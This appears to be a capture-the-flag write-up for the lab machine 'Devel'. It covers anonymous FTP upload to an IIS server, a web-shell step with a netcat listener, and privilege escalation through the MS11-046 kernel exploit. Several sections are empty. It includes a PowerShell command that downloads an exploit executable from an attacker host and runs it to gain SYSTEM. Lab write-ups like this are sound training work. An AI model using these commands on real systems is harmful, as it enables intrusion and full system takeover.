

# DEVEL

### Machine Info:


##### NMAP:


###### FTP:
Anonymous login is allowed for FTP service.


Moreover Anonymous user can put file into FTP sever.


###### HTTP:
Microsoft IIS httpd 7.5 is running.


##### Vulnerability:
FTP server allows anonymous user login and put malicious code to server. And via web server attacker can execute malicious code.

```
❯ echo test > test.txt
❯ ftp 10.10.10.5
Name (10.10.10.5:alcatrazk): anonymous
Password:
230 User logged in.
ftp> put test.txt
local: test.txt remote: test.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
6 bytes sent in 0.00 secs (217.0139 kB/s)
```


<br></br>

##### Exploit:
Sever is running ASP.NET
```
❯ curl -I http://10.10.10.5
HTTP/1.1 200 OK
Content-Length: 689
Content-Type: text/html
Last-Modified: Fri, 17 Mar 2017 14:37:30 GMT
Accept-Ranges: bytes
ETag: "37b5ed12c9fd21:0"
Server: Microsoft-IIS/7.5
X-Powered-By: ASP.NET
Date: Fri, 21 Feb 2020 10:38:13 GMT
```

Generate malicious shellcode:

And upload via FTP:


##### Now Execute!!!

Just visit `http://10.10.10.5/shell.aspx`

NC listener on Attacking machine:


##### Privilege Escalation:


The system is not patched so this could be exploited by kernel exploits. To find valid kernel exploits, I can run scripts such as Watson, windows-priv-checker. But before that I just searched for OS in google and tried one exploit.

```
Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)
```

Let's try with that exploit.

###### Exploit Code:
```
https://www.exploit-db.com/exploits/40564
```

###### Attacker Side:
```
❯ i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32
❯ python -m SimpleHTTPServer 8080                              
Serving HTTP on 0.0.0.0 port 8080 ...                          
```
###### Victim Side:
```
# Download exploit by using Powershell download
@powershell -NoProfile -ExecutionPolicy unrestricted -Command (new-object System.Net.WebClient).Downloadfile('http://10.10.14.37:8080/40564.exe', 'C:\windows\temp\40564.exe')

C:\Windows\Temp>40564.exe
40564.exe

indows\System32>whoami
whoami
nt authority\system
```


##### Proof:

###### user.txt:


###### root.txt:

